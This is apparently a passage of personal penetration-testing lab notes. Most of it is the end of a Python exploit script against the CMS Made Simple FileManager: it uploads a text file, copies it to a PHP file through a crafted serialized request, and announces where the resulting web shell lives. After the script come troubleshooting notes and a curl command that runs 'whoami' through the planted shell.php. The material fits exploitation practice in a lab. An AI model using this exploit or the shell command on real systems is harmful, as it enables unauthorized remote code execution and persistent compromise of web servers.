 ```
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
```

- Troubleshooting the "index out of range" Error
	- adding print statement to error
	- changed __c split to _sk_
- use curl & system command to serve payload
	- curl -k https://192.168.50.45/uploads/shell.php?cmd=whoami
- 